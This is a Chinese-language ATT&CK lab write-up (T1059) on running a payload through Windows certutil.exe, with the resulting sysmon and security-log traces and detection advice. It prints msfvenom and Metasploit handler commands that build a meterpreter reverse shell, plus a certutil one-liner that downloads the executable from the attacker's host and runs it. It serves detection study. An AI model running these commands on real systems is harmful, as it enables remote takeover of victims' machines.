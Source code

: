 # T1059-win-基于白名单Certutil.exe执行Payload

## 来自ATT&CK的描述

暂无合适分类，置放在此TID中

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件，并获取meterpreter会话。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload.exe

通过msfvenom 生成恶意可执行文件，并使用start multi/handler获取目标计算机反向shell会话。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f exe > shell.exe
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234

```

#### 开启小型http服务

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

#### 靶机执行payload

```dos
certutil.exe -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe & shell.exe
```

#### 反弹shell

```bash
[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49172) at 2020-04-17 15:59:50 +0800
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\certutil.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: CertUtil.exe
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CertUtil.exe
CommandLine: certutil.exe  -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID:0xbcc
新进程名: C:\Windows\System32\certutil.exe

#windows server 2008(不含2008)以上系统可以配置审核进程创建策略，达到记录命令行参数的效果。通过命令行参数进行监控分析。
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

